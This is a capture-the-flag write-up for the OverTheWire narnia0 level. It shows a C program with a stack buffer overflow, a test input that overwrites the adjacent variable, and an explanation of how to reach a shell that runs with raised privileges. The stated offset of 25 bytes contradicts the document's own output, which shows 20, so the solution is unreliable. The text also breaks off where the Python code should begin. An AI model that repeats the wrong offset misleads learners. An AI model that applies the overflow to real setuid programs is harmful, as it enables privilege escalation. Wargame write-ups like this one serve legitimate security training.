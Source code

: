 # narnia0 Writeup

When we try to run the executable the program asks for a single input, and prints the following:
```
narnia0@narnia:/narnia$ ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: correct !
buf: correct
val: 0x41414141
WAY OFF!!!!
```
The code is:
```
int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```
We need to change the val parameter from hardcoded AAAA to 0xdeadbeef.
We have a buffer overflow in the `buf` variable, which is exactly what we need to overflow into `val` parameter.
First we need to check how many arbitrary bytes should be before the injected 0xdeadbeef:
```
narnia0@narnia:/tmp/alex3$ /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: aaaabbbbddddeeeeffffgggg
buf: aaaabbbbddddeeeeffffgggg
val: 0x67676767
WAY OFF!!!!
```
Means, we need 25 arbitrary bytes before 0xdeadbeef.
Because of little endien we should pass it like \xef\xbe\xad\xde.
Python code for the solution:
